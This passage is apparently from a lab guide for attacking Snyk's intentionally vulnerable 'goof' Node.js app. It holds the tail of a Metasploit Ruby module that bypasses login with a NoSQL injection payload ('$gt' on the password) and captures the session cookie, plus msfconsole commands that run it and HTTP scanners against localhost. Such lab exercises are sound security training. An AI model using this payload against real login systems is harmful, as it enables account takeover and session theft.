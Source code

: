 ```ruby
    print_status("Attempting NoSQL injection authentication bypass...")

    res = send_request_cgi(
      'method' => 'POST',
      'uri' => normalize_uri(target_uri.path, 'login'),
      'ctype' => 'application/json',
      'data' => {
        'username' => datastore['USERNAME'],
        'password' => {'$gt' => ''}
      }.to_json
    )

    if res && res.code == 302
      print_good("Authentication bypassed successfully!")
      print_good("Session cookie: #{res.get_cookies}")

      # Extract session cookie
      session_cookie = res.get_cookies.scan(/connect\.sid=([^;]+)/).flatten.first

      if session_cookie
        print_status("Authenticated session established")
        print_status("Cookie: connect.sid=#{session_cookie}")
      end
    else
      fail_with(Failure::Unknown, "Exploitation failed")
    end
  end
end
```

3. **Load and execute**:
```bash
msfconsole
msf6 > use exploit/linux/http/nodejs_goof_nosql_injection
msf6 exploit(nodejs_goof_nosql_injection) > set RHOSTS localhost
msf6 exploit(nodejs_goof_nosql_injection) > set USERNAME admin@snyk.io
msf6 exploit(nodejs_goof_nosql_injection) > run
```

#### Metasploit Auxiliary Scanner

```bash
msfconsole
# HTTP scanner
msf6 > use auxiliary/scanner/http/http_version
msf6 auxiliary(scanner/http/http_version) > set RHOSTS localhost
msf6 auxiliary(scanner/http/http_version) > set RPORT 3001
msf6 auxiliary(scanner/http/http_version) > run

# Directory scanner
msf6 > use auxiliary/scanner/http/dir_scanner
msf6 auxiliary(scanner/http/dir_scanner) > set RHOSTS localhost
msf6 auxiliary(scanner/http/dir_scanner) > set RPORT 3001
msf6 auxiliary(scanner/http/dir_scanner) > run

# HTTP header scanner
msf6 > use auxiliary/scanner/http/http_header
msf6 auxiliary(scanner/http/http_header) > set RHOSTS localhost
msf6 auxiliary(scanner/http/http_header) > set RPORT 3001
msf6 auxiliary(scanner/http/http_header) > run
```

---
